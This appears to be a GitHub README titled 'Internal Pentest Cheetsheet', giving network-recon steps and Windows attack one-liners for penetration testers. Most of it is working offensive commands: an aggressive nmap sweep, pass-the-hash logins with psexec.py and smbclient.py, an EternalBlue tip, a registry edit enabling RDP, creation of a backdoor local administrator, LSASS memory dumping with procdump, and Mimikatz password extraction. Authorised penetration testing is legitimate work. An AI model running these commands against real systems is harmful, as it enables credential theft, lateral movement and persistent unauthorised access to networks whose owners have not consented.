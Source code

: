 # Internal Pentest Cheetsheet

## Recon
1) Use wireshark to listen for 30mins, once completed sift through it and try to identify hosts/interesting things.
2) Get/determine subnets in scope and add them to a file called ips.txt.
3) Run nmap ping scans to determine which hosts are up in the subnet, then full TCP/UDP scan. The below command does it all and saves at every step.
```
nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sn \
-iL ./ips.txt > results_all.txt && cat results_all.txt | grep up -B1 | cut -d " " -f5 | \
grep 10 >> cleaned_ips.txt && nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms \ 
--max-retries 0 -sS -sU -sC -sV -O -T4 -p- -v -n -Pn -PS -A --open -iL ./cleaned_ips.txt -oA *CLIENT NAME*
```
4) Now you have all the up hosts, their ports etc, feed the XML into pentest-machine, it'll speed up the enumeration of large subnets.
5) Eliminate low hanging fruit
6) If user account is provided, use bloodhound or AD-Recon to enumerate all of AD.
  Feed AD-Recon's Computers.csv into fruity-ad.py - it'll show you what you can pwn easily.
7) Profit

## Exploitation
1) Stop, think, am I going to break shit?
2) RECORD EVERY STEP
3) Verify your exploit will work
4) Clean up after yourself

## Post-Exploitation


## Useful shit

#### Use eternalblue_psexec - the others hardly work

### Dont always have to crack the hash, maybe pass it??
```
psexec.py -hashes LM:NTLM DOMAIN/User@IP
smbclient.py -hashes LM:NTLM DOMAIN/User@IP
```
MSF Allows you to use the NTLM hash in the password field in exploit/windows/smb_psexec
Don't forget that native upload (Target 3) works if powershell is disabled on the box

### Enable RDP from CMD
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Create localadmin
```
net user *username* *password* /add
net localgroup administrators *username* /add
net localgroup "Remote Desktop Users" *username* /add
```

### Procdump LSASS for creds
This creates a memory dump using the procdump sysinternals tool. 
#### 32bit
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
#### 64bit
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`
#### Mimikatz Extaction
```
sekurlsa::minidump lsass.dmp
sekurlsa::passwords full
```
